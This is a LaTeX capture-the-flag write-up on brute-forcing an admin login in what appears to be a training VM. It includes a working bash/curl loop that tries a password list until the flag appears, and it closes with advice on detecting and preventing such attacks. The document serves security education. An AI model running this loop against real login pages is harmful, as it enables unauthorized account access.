\section{Flag 07 - Bruteforce (member)}

\paragraph{b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2}
\begin{center}
    
\includegraphics[width=0.5\textwidth]{10.Flag07/07-04.png}\\[0cm] 
\end{center}

\subsection{Vulnerability}

Brute-force attacks are often used for attacking authentication and discovering hidden content/pages within a web application. These attacks are usually sent via GET and POST requests to the server. In regards to authentication, brute force attacks are often mounted when an account lockout policy is not in place.

\subsection{Location}

'http://<ip-address>:80/?page=signin'

\subsection{Method}

When one opens that `<ip-address>`, you are greeted by a `SIGN IN` button. When you click on it, you will notice a login page with the Bot from that one movie/book.

You wish to gain elevated priviledges so you will want to try log in as an admin. You will see when you analyse the code that the form uses a GET method and names its two inputs as username \& password respectively:


```

<td style="vertical-align:middle;">
  
    <form action="\#" method="GET">

    <input type="hidden" name="page" value="signin">
    
    Username:<input type="text" name ="username" style="width:100%;">

</td>

</tr>

<tr style="background-color:transparent;border:none;">
  
    <td style="vertical-align:middle;">
    
        Password:<input type="password" name ="password" style="width:100%;" AUTOCOMPLETE="off">
        
    </td>

</tr>

```

So the plan is to `spam` the URL over and over until the correct password is accepted. This is done via trying a list of passwords and seeing which one is eventually accepted. Here is the code:

```

for i in \${password[@]}; do
    
    if curl --silent -X POST "http://\${ip}/index.php?page=signin\&username=admin\&password=\${i}\&Login=Login\#" | grep "flag";
    
    then
    
        echo -e "\\nPassword is: \$i"
        
        curl -o sinkosi.html -X POST "http://\${ip}/index.php?page=signin\&username=admin\&password=\${i}\&Login=Login\#"
        
        exit 1
    
    fi

done

echo -e "\\nPassword is not in list\\n"

```

When the password is successfully found it will be printed to the terminal and a file sinkosi.html will be created. Open the html file, and the flag will be there.

*Alternative:* Use the retrieved password printed on the terminal and login directly on the VM.

\subsection{Tools}

\begin{figure}[!htb]
    \centering
    \subfloat[Sign In Link]{
\includegraphics[width=.45\columnwidth]{10.Flag07/07-01.png}\label{fig: 07-01 - wtf}} \quad
    \subfloat[Credentials Requested]{
\includegraphics[width=.45\columnwidth]{10.Flag07/07-02.png}\label{fig: 07-02 - wrong}} \\
    \subfloat[Credentials entered]{
\includegraphics[width=.45\columnwidth]{10.Flag07/07-03.png}\label{fig: 07-03 - nope}} \quad
    \subfloat[Retrieved Flag]{
\includegraphics[width=.45\columnwidth]{10.Flag07/07-04.png}\label{fig: 07-04 - wrong}} \\
    \caption[Flag 07 Method]{Process to Capture the Bruteforce Flag} % The text in the square bracket is the caption for the list of figures while the text in the curly brackets is the figure caption
    \label{fig:flag07 method}
\end{figure}

\begin{itemize}
    \item \href{https://en.wikipedia.org/wiki/List_of_the_most_common_passwords}{Wikipedia - Most Common Passwords}
    \item \href{http://securitypadawan.blogspot.com/2012/04/using-curl-to-brute-force-http-login.html}{Security Padawan}
    \item \href{https://www.comparitech.com/blog/information-security/brute-force-attack/}{CompariTech}
    
\end{itemize}

\subsection{Remedy}
Two Steps

\paragraph{How To Detect Brute Force Attack}

\begin{itemize}
    \item Multiple failed login attempts from the same IP address. Although, this could be a result of a proxy server being used by a large organization.
    \item Login attempts with multiple usernames from the same IP address. Again, this could simply be from a large organization.
    \item Multiple login attempts for a single username coming from different IP addresses. This could also be a single person using a proxy.
    \item An unusual pattern of failed login attempts, for example, following a sequential alphabetical or numerical pattern.
    \item An abnormal amount of bandwidth being used after a successful login attempt. This could signal an attack designed to steal resources.
\end{itemize} 

\paragraph{How To Prevent Brute Force Attack}
    
\begin{itemize}
    \item Utilizing or requiring strong passwords
    \item Allowing a limited number of login attempts
    \item Employing the use of CAPTCHAs
    \item Setting time delays between attempts
    \item Asking security questions
    \item Enabling or requiring two-factor authentication
    \item Using multiple login URLs
    \item Tricking the attack software (fake login)
\end{itemize}
